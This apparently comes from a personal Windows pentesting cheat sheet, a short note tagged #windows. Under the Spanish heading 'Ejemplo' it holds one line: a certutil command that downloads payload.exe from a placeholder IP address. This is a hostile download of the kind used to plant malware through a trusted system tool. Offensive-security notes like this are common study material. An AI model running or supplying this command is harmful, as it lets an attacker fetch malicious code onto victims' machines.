 ```yaml
---
created: 2024-12-21

---
```

-------------------
- tags: #windows 
-----------------

## Ejemplo
	certutil -urlcache -f http://x.x.x.x/payload.exe payload.exe


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
